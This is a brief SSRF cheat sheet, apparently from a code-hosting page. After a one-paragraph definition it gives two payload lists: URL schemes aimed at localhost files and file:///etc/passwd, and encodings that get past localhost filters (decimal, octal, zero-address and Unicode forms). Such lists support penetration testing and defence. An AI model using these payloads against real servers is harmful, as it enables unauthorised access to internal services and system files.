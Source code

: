 ## Server Side Request Forgery (SSRF)

![](https://media.geeksforgeeks.org/wp-content/uploads/20210326225503/RRRBlueandRedFlatGraphicMoonCratersAstronomyClassroomGroupWork1-660x371.png)

**What is SSRF Attack?**

Server-side request forgery is a web security vulnerability that allows an attacker to cause the server-side application to make requests to an unintended location. In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure.

**SSRF With Schema**
```
http ==> http://localhost/secretfile.txt
https ==> https://localhost/secretfile.txt
file ==> file:///etc/passwd
```
**Bypass Localhost**
```
127.0.0.*
0.0.0.0
localhost
http://2130706433/ (decimal value)]
http://0177.0.0.1/
http://0/
http://ⓛⓞⓒⓐⓛⓗⓞⓢⓣ (Magic Font)
```
